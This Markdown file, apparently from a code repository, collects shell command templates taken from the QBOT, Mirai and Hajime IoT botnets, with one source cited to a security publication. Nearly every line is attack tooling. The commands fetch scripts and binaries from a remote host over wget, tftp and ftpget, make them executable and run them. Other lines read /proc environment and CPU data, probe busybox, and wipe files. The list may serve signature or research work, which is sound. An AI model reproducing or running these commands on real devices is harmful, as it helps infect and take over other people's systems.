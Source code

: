 # QBOT

	cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget %s; chmod 777 bins.sh; sh bins.sh; tftp %s -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g %s; chmod 777 tftp2.sh; sh tftp2.sh; ftpget -v -u anonymous -p anonymous -P 21 %s ftp1.sh ftp1.sh; sh ftp1.sh; rm -rf bins.sh tftp1.sh tftp2.sh ftp1.sh; rm -rf *; exit
	
# Mirai

## Bot

	/bin/busybox MIRAI
	/bin/busybox ps

## Loader

	/bin/busybox cat /proc/%d/environ
	/bin/busybox echo -e '%s%s' > %s/.nippon; /bin/busybox cat %s/.nippon; /bin/busybox rm %s/.nippon
	/bin/busybox echo -e '%s/dev' > /dev/.nippon; /bin/busybox cat /dev/.nippon; /bin/busybox rm /dev/.nippon
	rm %s/.t; rm %s/.sh; rm %s/.human
	/bin/busybox ps; /bin/busybox %s
	/bin/busybox cat /proc/mounts; /bin/busybox %s
	/bin/busybox cp /bin/echo %s; >%s; /bin/busybox chmod 777 %s; /bin/busybox %s
	/bin/busybox cat /bin/echo
	/bin/busybox wget; /bin/busybox tftp; /bin/busybox %s
	cat /proc/cpuinfo; /bin/busybox %s
	/bin/busybox cp %s %s; > %s; /bin/busybox chmod 777 %s; /bin/busybox %s
	/bin/busybox wget http://%s:%d/bins/%s.%s -O - > %s; /bin/busybox chmod 777 %s; /bin/busybox %s
	/bin/busybox tftp -g -l %s -r %s.%s %s; /bin/busybox chmod 777 %s; /bin/busybox %s
	./%s; ./%s %s.%s; /bin/busybox %s
	/bin/busybox cp %s %s; > %s; /bin/busybox chmod 777 %s; /bin/busybox %s
	rm -rf %s; > %s; /bin/busybox %s
	/bin/busybox wget; /bin/busybox tftp; /bin/busybox %s

# Hajime
From: https://security.rapiditynetworks.com/publications/2016-10-16/hajime.pdf

	cat /proc/mounts; /bin/busybox %s
	cd /var; cat .s || cp /bin/echo .s; /bin/busybox %s
	/bin/busybox chmod 777 .s; /bin/busybox %s
	cat .s; /bin/busybox %s
	cp .s .i; >.i; ./.s>.i; ./.i; rm .s; /bin/busybox %s

